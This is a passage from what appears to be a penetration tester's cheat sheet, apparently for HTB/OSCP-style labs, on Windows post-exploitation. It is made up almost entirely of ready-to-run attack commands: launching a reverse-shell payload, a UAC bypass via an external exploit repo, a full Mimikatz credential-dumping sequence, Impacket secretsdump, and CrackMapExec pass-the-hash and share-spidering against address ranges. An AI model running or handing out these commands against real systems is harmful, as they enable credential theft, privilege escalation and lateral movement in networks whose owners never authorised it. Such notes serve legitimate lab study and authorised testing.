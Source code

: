 ```bash
Start-Process -NoNewWindow -FilePath C:\Windows\Tools\shell.exe
```

#### UAC Bypass

Check for this in PowerUp's Invoke-AllChecks output. Follow the steps listed in "https://github.com/CsEnox/EventViewer-UACBypass". For the command, execute a msfvenom payload for a proper reverse shell, such as

```bash
Invoke-EventViewer "C:\Windows\Tasks\shell.exe"
```

#### When you Become Local Admin

Run all MimiKatz commands and save the output:

```bash
.\mimikatz.exe
token::elevate # Makes sure commands are run as system
token::elevate /domainadmin
privilege::debug # Test if ^ is the case
log
sekurlsa::logonpasswords # Who has been on the host machine?
lsadump::lsa /inject
sekurlsa::msv
sekurlsa::ekeys
lsadump::sam
lsadump::secrets
lsadump::cache
```

If you see a username with a "$" at the end, this is a machine account, and cracking these passwords are infeasable at the moment. Look for service to be in Users OU, not Servers.

Impacket's secretsdump is a great alternative if you can't run mimikatz.

```bash
secretsdump.py htb.local/hacker:Hacker123\!@$ip
```

#### CrackMapExec 

To see if anybody has the same hash or password on another computer in the network:

```bash
crackmapexec smb 10.10.10.15-24 -u '' -H 5bcoe56i4645ho43h2ei534rsat -d corp.com --continue-on-success

# You can also use with a username, such as Administrator
crackmapexec smb 10.10.10.15-24 -u 'Administrator' -H 5bcoe56i4645ho43h2ei534rsat --local-auth --lsa

# This one worked
crackmapexec smb 10.10.10.15 -u 'Administrator' -H 5bcoe56i4645ho43h2ei534rsat -d svcorp --continue-on-success

proxychains -q crackmapexec smb files02 -u joe -p Flowers1 --spider ADMIN$ --regex .
```
